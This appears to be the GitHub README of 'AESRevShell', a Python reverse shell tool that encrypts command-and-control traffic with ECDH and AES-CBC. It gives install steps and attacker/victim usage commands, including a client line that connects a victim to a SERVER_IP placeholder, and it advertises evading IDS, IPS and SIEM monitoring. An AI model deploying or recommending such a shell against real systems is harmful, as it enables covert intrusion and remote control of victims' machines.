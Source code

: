 # AESRevShell
AESRevShell is a **secure reverse shell tool** that utilizes **Elliptic Curve Diffie-Hellman (ECDH)** for secure key exchange and **AES encryption (CBC mode)** to ensure encrypted communication between a client and a server. This project demonstrates a robust and secure way to establish a command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By leveraging **ECDH + HKDF** for key exchange and **AES encryption**, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a powerful tool for penetration testing in environments with strict monitoring.

### **Key Features:**
- **ECDH Key Exchange:** Secure key exchange using Elliptic Curve Diffie-Hellman (ECDH) to prevent Man-in-the-Middle (MITM) attacks.
- **HKDF Key Derivation:** Derives a secure AES key and IV using HMAC-based Key Derivation Function (HKDF).
- **AES Encryption (CBC mode):** Encrypts all communication between the client and server.
- **Client-Server Architecture:** Reverse shell functionality with encrypted command execution.
- **Resistance to MITM:** ECDH ensures that even if an attacker intercepts the communication, they cannot decrypt the data.
- **Bypass of IDS/IPS/SIEM:** AES encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.

### **How It Works:**
1. **Key Exchange:**
   - The server and client generate their own ECDH key pairs (private and public keys).
   - They exchange their public keys and compute a shared secret using ECDH.
   - The shared secret is used to derive a secure AES key and IV using HKDF.

2. **Encrypted Communication:**
   - All commands and responses are encrypted with AES in CBC mode.
   - The server sends encrypted commands to the client, which decrypts and executes them.
   - The client sends the encrypted output back to the server.

3. **Secure Execution:**
   - The client executes commands in a secure environment and returns the encrypted output to the server.

## **Demos**
![image](https://github.com/user-attachments/assets/2a1486f1-7dfb-44fd-b0a8-893816e6de6f)
![image](https://github.com/user-attachments/assets/ec125041-cbcd-435a-9949-00a60fe581c1)

## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/OusCyb3rH4ck/AESRevShell
   cd AESRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## **Usage**

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p PORT
```

### **Security Features**
- **ECDH Key Exchange:** Prevents MITM attacks by securely exchanging keys.
- **HKDF Key Derivation:** Ensures unique and secure AES keys for each session.
- **AES Encryption:** Encrypts all communication to protect against eavesdropping.
- **No Manual Key Sharing:** Keys are exchanged securely without manual intervention.

### **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

### **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

### **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
